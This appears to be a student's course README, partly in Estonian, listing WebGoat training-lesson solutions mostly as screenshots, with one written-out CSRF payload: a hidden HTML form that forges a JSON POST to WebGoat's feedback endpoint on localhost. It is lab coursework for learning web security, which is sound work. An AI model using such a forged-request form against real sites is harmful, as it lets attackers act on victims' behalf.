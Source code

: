 1-3 Client side) kolm tükki ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/4e4f8a9b-e16b-4b7b-bed6-3f024e56f1d8)<br>
4 SQL Injection intro) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/dd4e4cf4-5b91-4cd8-a4ce-5007e6e60059)<br>
5 Crypto basics) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/88f2f3a5-65fe-4830-a3fe-878531c3503b)<br>
6 Insecure direct object references) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/267f158e-ffb9-4390-ad09-4f357c005a13)<br>
7 XXE) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/9f4fc329-69cd-4a38-bd09-780c72250378)<br>
8 CSRF) Kuna webwolfi .html faili üleslaadimisega on mingi probleem, millele internetist lahendust ei leidnud, siis ei saa seda lõpuni teha, aga postitan lahenduskäigu, mis peaks töötama.
HTML kood, mis failis olema peaks:
127.0.0.1 on minu kali IP.
```html
<form enctype="text/plain" method="POST" action="http:/127.0.0.1:8080/WebGoat/csrf/feedback/message">
	<input type="hidden" name='{"name": "WebGoat", "email": "webgoat@webgoat.org", "content": "WebGoat is the best!!", "ignoreme":"' value='sdfsdfdf"}'>
	<button>submit</button>
</form>
```
<br>
![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/95c22a2f-05fd-4956-944a-8c154ecb82d6)


